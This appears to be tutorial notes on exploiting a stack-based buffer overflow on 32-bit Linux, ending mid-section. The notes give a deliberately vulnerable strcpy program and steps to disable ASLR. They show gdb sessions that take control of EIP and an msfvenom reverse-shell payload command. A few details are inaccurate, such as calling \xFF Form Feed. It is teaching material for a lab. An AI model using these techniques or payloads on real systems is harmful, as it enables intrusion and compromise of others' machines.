







Stack-Based Buffer Overflows on Linux x86
Intro
Buffer Overflow Overview
Buffer overflows are caused by incorrect program code, which cannot process too large amounts of data correctly by the CPU and can, therefore, manipulate the CPU’s processing. Suppose too much data is written to a reserved memory buffer or stack that is not limited. In that case, specific registers will be overwritten, which may allow code to be executed.
A buffer overflow can cause the program to crash, corrupt data, or harm data structures in the program’s runtime. The last of these can overwrite the specific program’s return address with arbitrary data, allowing an attacker to execute commands with the privilege of the process vulnerable to the buffer overflow by passing arbitrary machine code. This code is usually intended to give you more convenient access to the system to use it for your own purpose.
The most significant cause of buffer overflows is the use of programming languages that do not automatically monitor limits of memory buffer or stack to prevent buffer overflow.
For this reason, developers are forced to define such areas in the programming code themselves, which increases vulnerability many times over.
Exploit Development Intro
There are two types of exploits. One is unknown, and the other is known.
0-Day Exploits
A 0-day exploit is a code that exploits a newly identified vulnerability in a specific app. The vulnerability does not need to be public in the application. The danger with such exploits is that if the developers of this application are not informed about the vulnerability, they will likely persist with new updates.
N-Day Exploits
If the vulnerability is published and informs the developers, they will still need time to write a fix to prevent them as soon as possible. When they are published, they talk about N-day exploits, counting the days between the publication of the exploit and an attack on the unpatched systems.
Also, these exploits can be divided into four different categories:
- Local
- Remote
- DoS
- WebApp
Local Exploits
… can be executed when opening a file. However, the prerequisite for this is that the local software contains a security vulnerability. Often a local exploit first tries to exploit security holes in the program with which the file was imported to achieve a higher privilege level and thus load and execute malicious code / shellcode in the OS. The actual action that the exploit performs is called payload.
Remote Exploits
… very often exploit the buffer overflow vulnerability to get the payload running on the system. This type of exploits differs from local exploits because they can be executed over the network to perform the desired operation.
DoS Exploits
… are codes that prevent other systems from functioning, i.e., cause a crash of individual software or the entire system.
WebApp Exploits
… use a vulnerability in such software. Such vulnerabilites can, for example, allow a command injection on the application itself or the underlying database.
CPU Architecture
Von-Neumann consists of:
- Memory
- Control Unit
- Arithmetical Logical Unit
- Input/Output Unit
In the von-Neumann architecture, the most important units, the Arithmetic Logical Unit (ALU) and Control Unit (CU), are combined in the actual Central Processing Unit (CPU). The CPU is responsible for executing the instructions and for flow control. The instructions are executed one after the other, step by step. The commands and data are fetched from memory by the CU. The connection between processor, memory, and input/output is called a bus system, which is not mentioned in the original von-Neumann architecture but plays an essential role in practice. In the von-Neumann architecture, all instructions and data are transferred via the bus system.
Memory
… can be divided into two different categories:
- Primary Memory
- Secondary Memory
Primary Memory
… is the cache and Random Access Memory (RAM). If you think about it logically, memory is nothing more than a place to store information. You can think of it as leaving something at one of your friends to pick it up again later. But for this, it is necessary to know the friend’s address to pick up what you have left behind. It is the same as RAM. RAM describes a memory type whose memory allocations can be accessed directly and randomly by their memory addresses.
The cache is integrated into the processor and serves as a buffer, which in the best case, ensures that the processor is always fed with data and program code. Before the program code and data enter the processor for processing, the RAM serves as data storage. The size of the RAM determines the amount of data that can be stored for the processor. However, when the primary memory loses power, all stored contents are lost.
Secondary Memory
… is the external data storage, such as HDD/SSD, Flash Drives and CD/DVD-ROMs of a computer, which is not directly accessed by the CPU, but via the I/O interfaces. In other words, it is a mass storage device. It is used to permanently store data that does not need to be processed at the moment. Compared to primary memory, it has a higher storage capicity, can store data permanently even without a power supply, and works much slower.
Control Unit
… is responsible for the correct interworking of the processor’s individual parts. An internal bus connection is used for the tasks of the CU. The tasks of the CU can be summarised as follows:
- reading data from RAM
- saving data in RAM
- provide, decode and execute an instruction
- processing the inputs from peripheral devices
- processing the outputs to peripheral devices
- interrupt control
- monitoring of the entire system
The CU contains the Instruction Register (IR), which contains all instructions that the processor decodes and executes accordingly. The instruction decoder translates the instructions and passes them to the execution unit, which then executes the instruction. The execution unit transfers the data to the ALU for calculation and receives the result back from there. The data used during execution is temporarily stored in registers.
Central Processing Unit
… is the functional unit in a computer that provides the actual processing power. It is responsible for processing information and controlling the processing operations. To do this, the CPU fetches commands from memory one after the other and initiates data processing.
The processor is also often referred to as a Microprocessor when placed in a single electronic unit, as in PCs.
Each CPU has an architecture on which it was built. The best-known CPU architectures are:
- x86/i386
- x86-64/amd64
- ARM
Each of these CPU architectures is built in a specific way, called Instruction Set Architecture (ISA), which the CPU uses to execute its processes. ISA, therefore, describes the behavior of a CPU concerning the instruction set used. The instruction sets are defined so that they are independent of a specific implementation. Above all, ISA gives you the possibility to understand the unified behavior of machine code in Assembly language concerning registers, data, types, etc.
There are different types of ISA:
- CISC
- RISC
- VLIW - Very Long Instruction Word
- EPIC - Explicitly Parallel Instruction Computing
RISC
… is a design if microprocessors architecture that aimed to simplify the complexity of the instruction set for Assembly programming to one clock cycle. This leads to higher clock frequencies of the CPU but enables a faster execution because smaller instruction sets are used. By an instruction set, the set of machine instructions that a given processor can execute are meant. You find RISC in most smartphones today. Nevertheless, pretty much all CPUs have a portion of RISC in them. RISC architectures have a fixed length of instructions defined as 32-bit or 64-bit.
CISC
… is a processor architecture with an extensive and complex instruction set. Due to the historical development of computers and their memory, recurring sequences of instructions were combined into complicated instructions in second-generation computers. The addressing in CISC architectures does not require 32-bit or 64-bit in contrast to RISC but can be done with an 8-bit mode.
Instruction Cycle
The instruction set describes the totality of the machine instructions of a processor. The scope of the instruction set varies considerably depending on the processor type. Each CPU may have different instruction cycles and instruction sets, but they are all similar in structure, which can be summarised as follows:
| Instruction | Description |
|---|---|
| 1. FETCH | the next machine instruction address is read from the Instruction Address Register; it is then loaded from the cache or RAM into the Instruction Register |
| 2. DECODE | the instruction decoder converts the instructions and starts the necessary circuits to execute the instruction |
| 3. FETCH OPERANDS | if further data have to be loaded for execution, these are loaded from the cache or RAM into working registers |
| 4. EXECUTE | the instruction is executed; this can be, for example, operations in the ALU, a jump in the program, the writing back of results into the working registers, or the control of peripheral devices; depending on the result of some instructions, the status register is set, which can be evaluated by subsequent instructions |
| 5. UPDATE INSTRUCTION POINTER | if no jump has been executed in the EXECUTE phase, the IAR is now increased by the length of the instruction so that it points to the next machine instruction |
Stack-Based Buffer Overflow
Memory exceptions are the operating system’s reaction to an error in existing software ir during the execution of these. This is responsible for most of the security vulnerabilities in program flows in the last decade. Programming errors often occur, leading to buffer overflows due to inattention when programming with low abstract languages such as C or C++.
These languages are compiled almost directly to machine code and, in contrast to highly abstracted languages such as Python or Java, run through little to no control structure OS. Buffer overflows are errors that allow data that is too large to fit into a buffer of the OS’s memory that is not large enough, thereby overflowing this buffer. As a result of this mishandling, the memory of other functions of the executed program is overwritten, potentially creating a security vulnerability.
Such a program, is a general executable file stored on a data storage medium. There are several different file formats for such executable binary files. For example, the Portable Executable Foramt (PE) is used on Microsoft platforms.
Another format for executable files is the Executable and Linking Format (ELF), supported by almost all modern UNIX variants. If the linker loads such an executable binary file and the program will be executed, the corresponding program code will be loaded into the main memory and then executed by the CPU.
Programs store data and instructions in memory during initialization and execution. These are data that are displayed in the executed software or entered by the user. Especially for expected user input, a buffer must created beforehand by saving the input.
The instructions are used to model the program flow. Among other things, return addresses are stored in the memory, which refers to other memory addresses and thus define the program’s control flow. If such a return address is deliberately overwritten by using a buffer overflow, an attacker can manipulate the program flow by having the return address refer to another function or subroutine. Also, it would be possible to jump back to a code previously introduced by the user input.
You need to be familiar with how:
- the memory is divided and used
- the debugger displays and names the individual instructions
- the debugger can be used to detect such vulnerabilites
- you can manipulate the memory
The Memory
When the program is called, the sections are mapped to the segments in the process, and the segments are loaded into memory as described by the ELF file.
Buffer

.text
The .text section contains the actual assembler instructions of the program. This area can be read-only to prevent the process from accidentally modifying its instructions. Any attempt to write to this area will inevitably result in a segmentation fault.
.data
The .data section contains global and static variables that are explicitly innitialized by the program.
.bss
Several compilers and linkers use the ```.bss`` section as part of the data segment, which contains statically allocated variables represented exclusively by 0 bits.
The Heap
Heap memory is allocated from this area. This area starts at the end of the .bss segment and grows to the higher memory addresses.
The Stack
Stack memory is a last-in-first-out data structure in which the return addresses, parameters, and, depending on the compiler options, frame pointers are stored. C/C++ local variables are stored here, and you can even copy code to the stack. The stack is a defined area in RAM. The linker reserves this area and usually places the stack in RAM’s lower area above the global and static variables. The contents are accessed via the stack pointer, set to the upper end of the stack during initialization. During execution, the allocated part of the stack grows down to the lower memory addresses.
Modern memory protections (DEP/ASLR) would prevent the damage caused by buffer overflows. DEP, marked regions of memory “Read-Only”. The read-only memory regions is where some user-input is stored, so the idea behind DEP was to prevent users from uploading shellcode to memory and then setting the instruction pointer to the shellcode. Hackers started utilizing ROP to get around this, as it allowed them to upload the shellcode to an executable space and use existing calls to execute it. With ROP, the attacker needs to know the memory addresses where things are stored, so the defense against it was to implement ASLR which randomizes where everything is stored making ROP more difficult.
Users can get around ASLR by leaking memory addresses, but this makes exploits less reliable and sometimes impossible.
Vulnerable Program
Example with vulnerable function strcpy():
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bowfunc(char *string) {
char buffer[1024];
strcpy(buffer, string);
return 1;
}
int main(int argc, char *argv[]) {
bowfunc(argv[1]);
printf("Done.\n");
return 1;
}
Modern OS have built-in protections against such vulnerabilities, like Address Space Layout Randomization (ASLR). To make the example work you need to disable this memory protection feature:
student@nix-bow:~$ sudo su
root@nix-bow:/home/student# echo 0 > /proc/sys/kernel/randomize_va_space
root@nix-bow:/home/student# cat /proc/sys/kernel/randomize_va_space
0
Next, you can compile it:
student@nix-bow:~$ sudo apt install gcc-multilib
student@nix-bow:~$ gcc bow.c -o bow32 -fno-stack-protector -z execstack -m32
student@nix-bow:~$ file bow32 | tr "," "\n"
bow: ELF 32-bit LSB shared object
Intel 80386
version 1 (SYSV)
dynamically linked
interpreter /lib/ld-linux.so.2
for GNU/Linux 3.2.0
BuildID[sha1]=93dda6b77131deecaadf9d207fdd2e70f47e1071
not stripped
Vulnerable C Functions
There are several vulnerable functions in the C programming language that do not independently protect the memory. These are some:
- strcpy
- gets
- sprintf
- scanf
- strcat
GBD Intro
GBD, or the GNU Debugger, is the standard debugger of Linux systems developed by the GNU project. It has been ported to many systems and supports the programming languages C, C++, Objective-C, FORTRAN, Java, and many more.
GBD provides you with the usual traceability features like breakpoints or stack trace output and allows you to intervene in the execution of programs. It also allows you to manipulate the variables of the application or to call functions independently of the normal execution of the program.
AT&T
student@nix-bow:~$ gdb -q bow32
Reading symbols from bow...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
0x00000582 <+0>: lea 0x4(%esp),%ecx
0x00000586 <+4>: and $0xfffffff0,%esp
0x00000589 <+7>: pushl -0x4(%ecx)
0x0000058c <+10>: push %ebp
0x0000058d <+11>: mov %esp,%ebp
0x0000058f <+13>: push %ebx
0x00000590 <+14>: push %ecx
0x00000591 <+15>: call 0x450 <__x86.get_pc_thunk.bx>
0x00000596 <+20>: add $0x1a3e,%ebx
0x0000059c <+26>: mov %ecx,%eax
0x0000059e <+28>: mov 0x4(%eax),%eax
0x000005a1 <+31>: add $0x4,%eax
0x000005a4 <+34>: mov (%eax),%eax
0x000005a6 <+36>: sub $0xc,%esp
0x000005a9 <+39>: push %eax
0x000005aa <+40>: call 0x54d <bowfunc>
0x000005af <+45>: add $0x10,%esp
0x000005b2 <+48>: sub $0xc,%esp
0x000005b5 <+51>: lea -0x1974(%ebx),%eax
0x000005bb <+57>: push %eax
0x000005bc <+58>: call 0x3e0 <puts@plt>
0x000005c1 <+63>: add $0x10,%esp
0x000005c4 <+66>: mov $0x1,%eax
0x000005c9 <+71>: lea -0x8(%ebp),%esp
0x000005cc <+74>: pop %ecx
0x000005cd <+75>: pop %ebx
0x000005ce <+76>: pop %ebp
0x000005cf <+77>: lea -0x4(%ecx),%esp
0x000005d2 <+80>: ret
End of assembler dump.
AT&T syntax can be recognized by the % and $.
Syntax Changing
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x00000582 <+0>: lea ecx,[esp+0x4]
0x00000586 <+4>: and esp,0xfffffff0
0x00000589 <+7>: push DWORD PTR [ecx-0x4]
0x0000058c <+10>: push ebp
0x0000058d <+11>: mov ebp,esp
0x0000058f <+13>: push ebx
0x00000590 <+14>: push ecx
0x00000591 <+15>: call 0x450 <__x86.get_pc_thunk.bx>
0x00000596 <+20>: add ebx,0x1a3e
0x0000059c <+26>: mov eax,ecx
0x0000059e <+28>: mov eax,DWORD PTR [eax+0x4]
<SNIP>
You can also set Intel as the default syntax:
student@nix-bow:~$ echo 'set disassembly-flavor intel' > ~/.gdbinit
Intel
student@nix-bow:~$ gdb ./bow32 -q
Reading symbols from bow...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
0x00000582 <+0>: lea ecx,[esp+0x4]
0x00000586 <+4>: and esp,0xfffffff0
0x00000589 <+7>: push DWORD PTR [ecx-0x4]
0x0000058c <+10>: push ebp
0x0000058d <+11>: mov ebp,esp
0x0000058f <+13>: push ebx
0x00000590 <+14>: push ecx
0x00000591 <+15>: call 0x450 <__x86.get_pc_thunk.bx>
0x00000596 <+20>: add ebx,0x1a3e
0x0000059c <+26>: mov eax,ecx
0x0000059e <+28>: mov eax,DWORD PTR [eax+0x4]
0x000005a1 <+31>: add eax,0x4
0x000005a4 <+34>: mov eax,DWORD PTR [eax]
0x000005a6 <+36>: sub esp,0xc
0x000005a9 <+39>: push eax
0x000005aa <+40>: call 0x54d <bowfunc>
0x000005af <+45>: add esp,0x10
0x000005b2 <+48>: sub esp,0xc
0x000005b5 <+51>: lea eax,[ebx-0x1974]
0x000005bb <+57>: push eax
0x000005bc <+58>: call 0x3e0 <puts@plt>
0x000005c1 <+63>: add esp,0x10
0x000005c4 <+66>: mov eax,0x1
0x000005c9 <+71>: lea esp,[ebp-0x8]
0x000005cc <+74>: pop ecx
0x000005cd <+75>: pop ebx
0x000005ce <+76>: pop ebp
0x000005cf <+77>: lea esp,[ecx-0x4]
0x000005d2 <+80>: ret
End of assembler dump.
CPU-Registers
Registers are the essential components of a CPU. Almost all registers offer a small amount of storage space where data can be temporarily stored. However, some of them have a particular function.
These registers will be divided into General registers, Control registers, and Segment registers. The most critical registers you need are the General registers. In these, there are further subdivisions into Data registers, Pointer registers, and Index registers.
Registers
Data Registers
| 32-bit Register | 64-bit Register | Description |
|---|---|---|
EAX | RAX | accumulator is used in input/output and for arithmetic operations |
EBX | RBX | base is used in indexed addressing |
ECX | RCX | counter is used to rotate instructions and count loops |
EDX | RDX | data is used for I/O and in arithmetic operations for mulitply and divide operations involving large values |
Pointer Register
| 32-bit Register | 64-bit Register | Description |
|---|---|---|
EIP | RIP | instruction pointer stores the offset address of the next instruction to be executed |
ESP | RSP | stack pointer points to the top of the stack |
EBP | RBP | base pointer is also known as Stack Base Pointer or Frame Pointer that points to the base of the stack |
Index Register
| 32-bit Register | 64-bit Register | Description |
|---|---|---|
ESI | RSI | source index is used as a pointer from a source for string operations |
EDI | RDI | destination is used as a pointer to a destination for string operations |
Stack Frames
Since the stack starts with a high address and grows down to low memory addresses as values are added, the Base Pointer points to the beginning of the stack in contrast to the Stack Pointer, which points to the top of the stack.
As the stack grows, it is logically divided into regions called Stack Frames, which allocate the required memory in the stack for the corresponding function. A stack frame defines a frame of data with the beginning (EBP) and the end (ESP) that is pushed onto the stack when a function is called.
Since the stack memory is built on a last-in-first-out data structure, the first step is to store the previous EBP position on the stack, which can be restored after the function completes.
(gdb) disas bowfunc
Dump of assembler code for function bowfunc:
0x0000054d <+0>: push ebp # <---- 1. Stores previous EBP
0x0000054e <+1>: mov ebp,esp
0x00000550 <+3>: push ebx
0x00000551 <+4>: sub esp,0x404
<...SNIP...>
0x00000580 <+51>: leave
0x00000581 <+52>: ret
The EBP in the stack frame is set first when a function is called and contains the EBP of the previous stack frame. Next, the value of the ESP is copied to the EBP, creating a new stack frame.
CPU Registers
(gdb) disas bowfunc
Dump of assembler code for function bowfunc:
0x0000054d <+0>: push ebp # <---- 1. Stores previous EBP
0x0000054e <+1>: mov ebp,esp # <---- 2. Creates new Stack Frame
0x00000550 <+3>: push ebx
0x00000551 <+4>: sub esp,0x404
<...SNIP...>
0x00000580 <+51>: leave
0x00000581 <+52>: ret
Then some space is created in the stack, moving the ESP to the top for the operations and variables needed and processed.
Prologue
(gdb) disas bowfunc
Dump of assembler code for function bowfunc:
0x0000054d <+0>: push ebp # <---- 1. Stores previous EBP
0x0000054e <+1>: mov ebp,esp # <---- 2. Creates new Stack Frame
0x00000550 <+3>: push ebx
0x00000551 <+4>: sub esp,0x404 # <---- 3. Moves ESP to the top
<...SNIP...>
0x00000580 <+51>: leave
0x00000581 <+52>: ret
These three instructions represent the so-called Prologue.
For getting ot of the stack frame, the opposite is done, the Epilogue. During the epilogue, the ESP is replaced by the current EBP, and its value is reset to the value it had before in the prologue. The epilogue us relatively short, and apart from other possibilities to perform it, in your example, it is performed with two instructions:
Epilogue
(gdb) disas bowfunc
Dump of assembler code for function bowfunc:
0x0000054d <+0>: push ebp
0x0000054e <+1>: mov ebp,esp
0x00000550 <+3>: push ebx
0x00000551 <+4>: sub esp,0x404
<...SNIP...>
0x00000580 <+51>: leave # <----------------------
0x00000581 <+52>: ret # <--- Leave stack frame
Endianness
During load and save operations in registers and memories, the bytes are read in a different order. This byte order is called endianness. Endianness is distinguished between the little-endian format and the big-endian format.
Big-endian and little-endian are about the order of valence. In bin-endian, the digits with the highest valence are initially. In little-endian, the digits with the lowest valances are at the beginning. Mainframe processors use the big-endian format, some RISC architectures, minicomputers, and in TCP/IP networks, the byte order is also in big-endian format.
Take a look at the following values:
- Address:
0xffff0000 - Word:
\xAA\xBB\xCC\xDD
| Memory Address | 0xffff0000 | 0xffff0001 | 0xffff0002 | 0xffff0003 |
|---|---|---|---|---|
| Big-Endian | AA | BB | CC | DD |
| Little-Endian | DD | CC | BB | AA |
This is very important for you to enter your code in the right order.
Exploiting
Taking Control of EIP
One of the most important aspects of a stack-based buffer overflow is to get the instruction pointer under control, so you can tell it to which address it should jump. This will make the EIP point to the address where your shellcode starts and causes the CPU to execute it.
You can execute commands in GDB using Python, which serves you directly as input.
Segmentation Fault
student@nix-bow:~$ gdb -q bow32
(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")
Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
If you run 1200 Us (0x55) as input, you can see from the register information that you have overwritten the EIP. As far as you know, the EIP points to the next instruction to be executed.
(gdb) info registers
eax 0x1 1
ecx 0xffffd6c0 -10560
edx 0xffffd06f -12177
ebx 0x55555555 1431655765
esp 0xffffcfd0 0xffffcfd0
ebp 0x55555555 0x55555555 # <---- EBP overwritten
esi 0xf7fb5000 -134524928
edi 0x0 0
eip 0x55555555 0x55555555 # <---- EIP overwritten
eflags 0x10286 [ PF SF IF RF ]
cs 0x23 35
ss 0x2b 43
ds 0x2b 43
es 0x2b 43
fs 0x0 0
gs 0x63 99
Visualized:

This means you have write access to the EIP. This, in turn, allows specifying to which memory address the EIP should jump. However, to manipulate the register, you need an exact number of Us up to the EIP so that the following 4 bytes can be overwritten with your desired memory address.
Determine the Offset
The offset is used to determine how many bytes are needed to overwrite the buffer and how much space you have around your shellcode.
Shellcode is a program code that contains instructions for an operation that you want the CPU to perform.
Create Pattern
d41y@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
d41y@htb[/htb]$ cat pattern.txt
Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
Now you replace the 1200 Us with the generated patterns and focus your attention again on the EIP.
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
… leads to:
(gdb) info registers eip
eip 0x69423569 0x69423569
You see that the EIP displays a different memory address, and you can use another MSF tool called pattern_offset to calculate the exact number of chars needed to advance to the EIP.
d41y@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
[*] Exact match at offset 1036
Visualized:

If you now use precisely this number of bytes for your Us, you should land exactly on the EIP. To overwrite it and check if you have reached it as planned, you can add 4 more bytes with \x66 and execute it to ensure you control the EIP.
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()

Now you see that you have overwritten the EIP with your \x66 chars. Next, you have to find out how much space you have for your shellcode, which then executes the commands you intend. As you control the EIP now, you will later overwrite it with the address pointing to your shellcode’s beginning.
Determining the Length for the Shellcode
Now you should find out how much space you have for your shellcode to perform the action you want.
Shellcode - Length
d41y@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
You now know that your payload will be about 68 bytes. As a precaution, you should try to take a larger range if the shellcode increases due to later specifications.
Often it can be useful to insert some no operation instructions (NOPs) before your shellcode begins so that it can be executed cleanly. You need:
- a total of 1040 bytes to get to the
EIP - an additional 100 bytes of NOPs
- 150 bytes for your shellcode
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
NOPs = "\x90" * 100
Shellcode = "\x44" * 150
EIP = "\x66" * 4

Now you can try to find out how much space you have available to insert your shellcode.
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()

Identification of Bad Chars
Previously in UNIX-like OS, binaries started with two bytes containing a “magic number” that determines the file type. In the beginning, this was used to identify object files for different platforms. Gradually this concept was tranferred to other files, and now almost every file contains a magic number.
Such reserved chars also exist in applications, but they do not always occur and are not still the same. These reserved chars, also known as bad characters can vary, but often you will see chars like this:
\x00- Null Byte\x0A- Line Feed\x0D- Carriage Return\xFF- Form Feed
Char List
You can use the following char list to find out all chars you have to consider and to avoid when generating your shellcode.
d41y@htb[/htb]$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
Calculate CHARS Length
